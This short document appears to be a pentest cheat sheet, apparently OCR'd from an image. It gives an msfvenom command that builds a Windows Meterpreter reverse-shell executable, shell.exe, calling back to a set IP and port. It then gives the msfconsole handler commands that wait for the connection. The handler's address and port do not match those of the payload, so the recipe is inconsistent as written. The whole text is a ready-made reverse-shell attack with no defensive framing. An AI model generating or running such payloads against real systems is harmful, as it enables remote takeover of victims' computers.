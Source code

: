 # Msfvenom
Create with:

msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=172.16.14.112 LPORT=443 -b "\x00" -f exe -o shell.exe

msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
windows/meterpreter/reverse_tcp
set lhost 192.168.1.123
set lport 4444
exploit -j
